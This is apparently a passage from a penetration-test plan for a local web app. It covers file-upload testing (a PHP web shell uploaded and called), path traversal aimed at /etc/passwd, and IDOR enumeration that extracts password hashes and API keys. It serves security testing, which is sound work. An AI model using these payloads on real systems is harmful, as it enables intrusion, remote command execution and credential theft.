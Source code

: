 ### Phase 4: File Upload Vulnerability Testing

#### 4.1 Unrestricted File Upload
**Target**: `/upload` endpoint

```bash
# Upload PHP web shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
curl -X POST http://localhost:5000/upload \
  -F "file=@shell.php"

# Upload Python script
echo 'import os; os.system("whoami")' > script.py
curl -X POST http://localhost:5000/upload \
  -F "file=@script.py"

# Upload with double extension
echo 'malicious content' > file.php.txt
curl -X POST http://localhost:5000/upload \
  -F "file=@file.php.txt"
```

#### 4.2 Path Traversal Testing
```bash
# Access uploaded files
curl http://localhost:5000/uploads/shell.php

# Path traversal attempts
curl http://localhost:5000/uploads/../app.py
curl http://localhost:5000/uploads/../../etc/passwd
curl http://localhost:5000/uploads/%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

### Phase 5: IDOR (Insecure Direct Object Reference) Testing

#### 5.1 Order Information Access
**Target**: `/order/<id>` endpoint

```bash
# Access different order IDs
for i in {1..10}; do
  echo "Testing order ID: $i"
  curl -s http://localhost:5000/order/$i | grep -E "(Order|User ID|Total)"
done
```

#### 5.2 User Data Access via API
**Target**: `/api/users/<id>` endpoint

```bash
# Extract user information
for i in {1..5}; do
  echo "User ID $i:"
  curl -s http://localhost:5000/api/users/$i | jq .
done

# Look for sensitive information
curl http://localhost:5000/api/users/1 | jq '.password_hash, .api_key'
```
